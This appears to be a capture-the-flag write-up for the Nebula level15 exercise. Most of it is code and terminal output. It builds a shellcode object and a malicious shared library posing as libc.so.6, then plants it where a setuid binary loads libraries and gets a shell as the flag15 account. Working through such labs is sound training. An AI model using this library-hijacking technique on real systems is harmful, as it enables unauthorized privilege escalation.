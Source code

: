 ```asm
mov ecx, 0
push ecx
push ebx
mov ecx, esp
mov edx, 0
int 0x80
```

```c
// run-shell.c
void shell(void);
void __attribute__((constructor)) init()
{
  shell();
}
```

```
level15@nebula:/tmp$ /tmp/nasm-2.11.08/nasm -f elf shell.asm

level15@nebula:/tmp$ gcc -shared -nostdlib run-shell.c shell.o -o /var/tmp/flag15/libc.so.6 

level15@nebula:/tmp$ /home/flag15/flag15 
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)

sh-4.2$ id
uid=984(flag15) gid=1016(level15) groups=984(flag15),1016(level15)

sh-4.2$ getflag 
You have successfully executed getflag on a target account
```
